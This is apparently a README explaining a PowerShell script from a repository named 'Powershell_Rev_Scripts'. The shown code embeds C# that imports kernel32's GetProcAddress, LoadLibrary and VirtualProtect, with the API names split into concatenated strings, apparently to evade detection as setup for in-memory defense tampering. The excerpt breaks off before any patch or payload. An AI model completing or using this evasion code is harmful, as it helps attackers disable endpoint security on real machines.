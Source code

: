 # Powershell_Rev_Scripts
## Explanation
# 1.
```powershell
$pythonmods = @"
using System;
using System.Runtime.InteropServices;
...
```
A variable called pythonmods is created and is a string that holds multiple lines of code emphasized by the '@"' or here strings. It includes the System and System.Runtime.InteropServices namespace.

# 2.
```powershell
public class K2 {
    [DllImport("kernel32", EntryPoint="Get" + "Proc" + "Address")]
    public static extern IntPtr gpa(IntPtr hModule, string procName);
    [DllImport("kernel32", EntryPoint="Load" + "Library")]
    public static extern IntPtr ll(string name);
    [DllImport("kernel32", EntryPoint="Virtual" + "Protect")]
    public static extern bool vp(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32", SetLastError = true)]
    ...
```
